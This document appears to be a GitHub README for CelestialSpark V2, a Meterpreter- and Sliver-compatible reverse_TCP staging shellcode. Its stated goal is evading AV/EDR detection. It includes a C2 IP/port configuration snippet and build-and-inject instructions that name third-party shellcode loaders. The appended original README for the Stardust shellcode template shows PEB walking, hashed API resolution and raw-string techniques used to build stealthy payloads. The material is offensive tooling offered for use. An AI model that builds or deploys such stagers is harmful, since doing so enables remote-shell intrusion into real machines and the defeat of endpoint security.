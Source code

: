 # CelestialSpark V2

A modern 64-bit position independent meterpreter and Sliver compatible reverse_TCP Staging Shellcode based on Cracked5piders Stardust Version 2 (03/2025)

```c++
#include <common.h>
#include <constexpr.h>
#include <resolve.h>

using namespace stardust;

// Define IP adress of your C2 Stager
#define IP_STR  "10.10.10.10"
// Define PORT 443 of your C2 Stager
#define PORT 443
```

## Why
I wanted to improve my understanding of position independent Shellcode, plus... My Meterpreter reverse_TCP Stager gets caught by a lot of AV/EDRs and I was hoping to somehow get around the IoCs the 15 year old Meterpreter reverse_TCP Shellcode generated by msfvenom.
Inspirations were:
- https://github.com/SherifEldeeb/TinyMet
- https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm

## How does it work
- not existing HTONS and HTONL functions have been hardcoded
- custom inet_addr function was rewritten and implemented in main.cc
- Socket creation and interaction functions have been imported from ws2_32.dll
- Meterpreter Staging Logic hase been copied from the original project and TinyMet

## Usage
- Git clone
- change IP and Port in main.cc
- disable the messagebox right before the Stage2 shellcode execution (if it bothers you)
- make
- Use your favourite Shellcode Loader/Injector. I Successfully tested:
    - https://github.com/Cipher7/ChaiLdr
    - https://github.com/florylsk/ExecIT
    - https://github.com/3xpl01tc0d3r/ProcessInjection
    - the original Stardust Loader and Stomper written by [Cracked5pider](https://github.com/Cracked5pider)

End of CelestialSpark
# Original Readme from here

# Stardust

A modern and easy to use 32/64-bit shellcode template.

- raw strings 
- C++20 project 
- uses compile time hashing with fnv1a for both function and module resolving  

### Basic Usage

resolving modules from PEB using `resolve::module`:
```c++
if ( ! (( ntdll.handle = resolve::module( expr::hash_string<wchar_t>( L"ntdll.dll" ) ) )) ) {
    return;
}

if ( ! (( kernel32.handle = resolve::module( expr::hash_string<wchar_t>( L"kernel32.dll" ) ) )) ) {
    return;
}
```

resolving function apis using either `RESOLVE_API` macro or `resolve::api` function:
```c++
const auto user32 = kernel32.LoadLibraryA( symbol<const char*>( "user32.dll" ) );

decltype( MessageBoxA ) * msgbox = RESOLVE_API( reinterpret_cast<uintptr_t>( user32 ), MessageBoxA );

msgbox( nullptr, symbol<const char*>( "Hello world" ), symbol<const char*>( "caption" ), MB_OK );
```
The `RESOLVE_API` is a wrapper around `resolve::api` to automatically hashes the function name and cast the function pointer to the function type.

string hashing for both UTF-8 and UTF-16 using the compile time `expr::hash_string` function:
```c++
auto user32_hash      = expr::hash_string<wchar_t>( L"user32.dll" );
auto loadlibrary_hash = expr::hash_string<char>( "LoadLibraryA" );
```

raw strings support for both 32/64-bit by using the `symbol` function: 
```c++
auto caption_string = symbol<const char*>( "hello from stardust" );

user32.MessageBoxA( nullptr, caption_string, symbol<const char*>( "message title" ), MB_OK );
```

easy to add new apis and modules to the instance. Under `include/common.h` the following entry has to be made:
```c++
class instance {
    ...
    
    struct
    {
        uintptr_t handle; // base address to user32.dll

        struct {
            D_API( MessageBoxA );
            // more entries can be added here
        };
    } user32 = {
        RESOLVE_TYPE( MessageBoxA ),
        // more entries can be added here 
    };
    
    ...
```
while the ``src/main.cc`` should resolve the base address of user32 and resolve the api pointer:
```c++

declfn instance::instance(
    void
) {
    ...
    //
    // resolve user32.dll from PEB if loaded 
    if ( ! (( user32.handle = resolve::module( expr::hash_string<wchar_t>( L"user32.dll" ) ) )) ) {
        return;
    }

    //
    // automatically resolve every entry imported
    // by user32 from the structure 
    RESOLVE_IMPORT( user32 );
    ...
}

```

semi friendly debugging capabilities via DbgPrint. The project althought needs to be compiled in debug mode by specifying ``make debug``. Usage: 
```c++
const auto user32 = kernel32.LoadLibraryA( symbol<const char*>( "user32.dll" ) );

if ( user32 ) {
    DBG_PRINTF( "oh wow look we loaded user32.dll -> %p\n", user32 );
} else {
    DBG_PRINTF( "okay something went wrong. failed to load user32 :/\n" );
}

DBG_PRINTF( "running from %ls (Pid: %d)\n",
    NtCurrentPeb()->ProcessParameters->ImagePathName.Buffer,
    NtCurrentTeb()->ClientId.UniqueProcess );

DBG_PRINTF( "shellcode @ %p [%d bytes]\n", base.address, base.length );
```

### Building 

Build in release mode: 
```shell
$ make                                                                                                                                                                                                                                                                                  20:17:26
-> compiling src/main.cc to main.x64.obj
-> compiling src/resolve.cc to resolve.x64.obj
compiling x64 project
/usr/bin/x86_64-w64-mingw32-ld: bin/stardust.x64.exe:.text: section below image base
-> compiling src/main.cc to main.x86.obj
-> compiling src/resolve.cc to resolve.x86.obj
compiling x86 project
/usr/bin/i686-w64-mingw32-ld: bin/stardust.x86.exe:.text: section below image base
$ ll bin                                                                                                                                                                                                                                                                                20:57:10
drwxr-xr-x spider spider 4.0 KB Thu Mar 13 20:57:10 2025 obj
.rw-r--r-- spider spider 752 B  Thu Mar 13 20:57:10 2025 stardust.x64.bin
.rw-r--r-- spider spider 672 B  Thu Mar 13 20:57:10 2025 stardust.x86.bin
```

Build in debug mode: 
```shell
$ make debug                                                                                                                                                                                                                                                                            20:57:14
-> compiling src/main.cc to main.x64.obj
-> compiling src/resolve.cc to resolve.x64.obj
compiling x64 project
/usr/bin/x86_64-w64-mingw32-ld: bin/stardust.x64.exe:.text: section below image base
-> compiling src/main.cc to main.x86.obj
-> compiling src/resolve.cc to resolve.x86.obj
compiling x86 project
/usr/bin/i686-w64-mingw32-ld: bin/stardust.x86.exe:.text: section below image base
$ ll bin                                                                                                                                                                                                                                                                                20:58:13
drwxr-xr-x spider spider 4.0 KB Thu Mar 13 20:58:13 2025 obj
.rw-r--r-- spider spider 1.2 KB Thu Mar 13 20:58:13 2025 stardust.x64.bin
.rw-r--r-- spider spider 1.1 KB Thu Mar 13 20:58:13 2025 stardust.x86.bin
```

## Demo
x64:
![x64](./static/stomper.x64.png)

x86:
![x86](./static/stomper.x86.png)

